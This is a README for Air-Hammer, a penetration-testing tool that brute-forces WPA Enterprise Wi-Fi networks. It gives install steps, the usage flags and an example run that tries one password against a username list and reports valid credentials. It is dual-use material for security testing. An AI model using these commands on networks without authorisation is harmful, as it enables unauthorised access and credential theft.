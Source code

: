 Air-Hammer - A WPA Enterprise horizontal brute-force attack tool
==========
*Created by Michael "Wh1t3Rh1n0" Allen, 2016-09-01*

Updated by ChatGPT to work with Python3 -> air-hammer_v3.py

Updated by ChatPGT to feed a username:password file instead of two separeted files -> air-hammer_userpass_v3.py

Introduction
------------
Air-Hammer is an online brute-force attack tool for use against WPA Enterprise networks. Although WPA Enterprise is often considered "more secure" than WPA-PSK, it also has a much larger attack surface. While WPA-PSK networks have only one valid password, there may be thousands of valid username and password combinations which grant access to a single WPA Enterprise network. Further, passwords used to access WPA Enterprise networks are commonly selected by end users, many of whom select **extremely common passwords**.

Air-Hammer has several advantages over current attacks against WPA Enterprise networks including:

* Client-less attacks
* Potentially larger attack surface
* Minimal hardware requirements

For a more detailed introduction to Air-Hammer, see my original blog post on it [here][1]


Screenshots
-----------
![Air-Hammer in use](http://mikeallen.org/images/air-hammer-01.jpg)


Installing dependencies
-----------------------
Air-Hammer has been built and used on the current version of Kali Linux. In addition to packages that come with Kali Linux by default, the following dependencies need to be installed:

* [python-wpa-supplicant][2]:

        root@kali:~# pip install wpa_supplicant


Other requirements
------------------
Air-Hammer requires a list of usernames that are valid for the target network in order to function. Some basic suggestions for creating this list are included in [step 2 of the attack chain outlined on my blog][3].


Usage
-----
The `-h` or `--help` flags can be used to display Air-Hammer's usage instructions.

```
root@kali:~# ./air-hammer.py --help
usage: air-hammer.py -i interface -e SSID -u USERFILE [-P PASSWORD]
                     [-p PASSFILE] [-s line] [-w OUTFILE] [-1] [-t seconds]

Perform an online, horizontal dictionary attack against a WPA Enterprise
network.

optional arguments:
  -i interface  Wireless interface (default: None)
  -e SSID       SSID of the target network (default: None)
  -u USERFILE   Username wordlist (default: None)
  -P PASSWORD   Password to try on each username (default: None)
  -p PASSFILE   List of passwords to try for each username (default: None)
  -s line       Optional start line to resume attack. May not be used with a
                password list. (default: 0)
  -w OUTFILE    Save valid credentials to a CSV file (default: None)
  -1            Stop after the first set of valid credentials are found
                (default: False)
  -t seconds    Seconds to sleep between each connection attempt (default:
                0.5)
```

Example
-------
Below is a standard attack using wlan0 to target the "Test-Network" wireless network with the password, "UserPassword1", and a list of usernames stored in the file, "usernames.txt".

```
root@kali:~# ./air-hammer.py -i wlan0 -e Test-Network -P UserPassword1 -u usernames.txt 
[0]  Trying alice:UserPassword1...
[1]  Trying bob:UserPassword1...
[2]  Trying charlotte:UserPassword1...
[3]  Trying dave:UserPassword1...
[4]  Trying wifiuser:UserPassword1...
[!] VALID CREDENTIALS: wifiuser:UserPassword1
[5]  Trying wrongUser05:UserPassword1...
[6]  Trying wrongUser06:UserPassword1...
```


[1]: http://mikeallen.org/blog/2016-10-06-breaking-into-wpa-enterprise-networks-with-air-hammer/
[2]: https://github.com/digidotcom/python-wpa-supplicant
[3]: http://mikeallen.org/blog/2016-10-06-breaking-into-wpa-enterprise-networks-with-air-hammer/#attack-chain
